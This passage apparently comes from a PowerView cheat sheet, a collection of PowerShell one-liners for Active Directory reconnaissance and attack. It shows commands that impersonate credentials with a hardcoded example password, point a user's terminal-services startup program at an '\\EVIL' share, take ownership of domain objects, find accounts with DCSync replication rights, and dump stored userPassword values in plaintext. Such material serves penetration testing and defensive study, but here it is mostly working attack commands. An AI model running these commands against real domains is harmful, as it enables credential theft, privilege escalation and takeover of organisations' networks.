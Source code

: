```
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl
```

* If running in -sta mode, impersonate another credential a la "runas /netonly"

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```

* Enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer

```
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
```

* Set the specified property for the given user identity

```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```

* Set the owner of 'dfm' in the current domain to 'harmj0y'

```
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```

* Retrieve _most_ users who can perform DC replication for dev.testlab.local (i.e. DCsync)

```
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```

* Check if any user passwords are set

```
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```
